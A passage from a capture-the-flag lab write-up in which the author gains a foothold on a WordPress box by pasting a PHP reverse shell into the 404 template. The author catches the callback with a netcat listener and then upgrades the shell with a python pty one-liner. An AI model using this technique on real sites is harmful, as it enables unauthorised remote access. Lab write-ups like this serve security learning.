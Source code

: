 ```
[+] Data Sent: 16.995 KB
[+] Data Received: 16.491 MB
[+] Memory used: 230.895 MB
[+] Elapsed time: 00:01:06
```

I am very very impressed by the scanner. Not only did it find that `/robots.txt` file fairly quicky, it also gave us the password in a minute! 

## 2. Foothold
To get a foothold, we need to figure what we can do with `WordPress`.

`WordPress 4.3.1 running Twenty Fifteen theme.` I did not find issues with this version, that are direct in any way. What I found instead is to mess with the `404` page.

in `Appearace>Editor>404 Template`, we get the template page for 404. Let's put the `php-reverse-shell.php` file in there. Find this by using the `locate` command, or getting one from github.

Save it, and have `nc` running. Now, go to a non-existent page like `/haha`. 

```
❯ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.8.150.214] from (UNKNOWN) [10.10.91.137] 45401
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 05:27:10 up  2:34,  0 users,  load average: 0.00, 0.17, 1.85
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

we are in!

===

In `/home/robot`, 
```
$ ls
key-2-of-3.txt
password.raw-md5
$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
```

very cute. 

## 3. Priv Esc

Let's first get a proper shell
```
$ python3 --version
Python 3.4.0
$ python3 -c "import pty; pty.spawn('/bin/bash')"
daemon@linux:/home/robot$ 
```
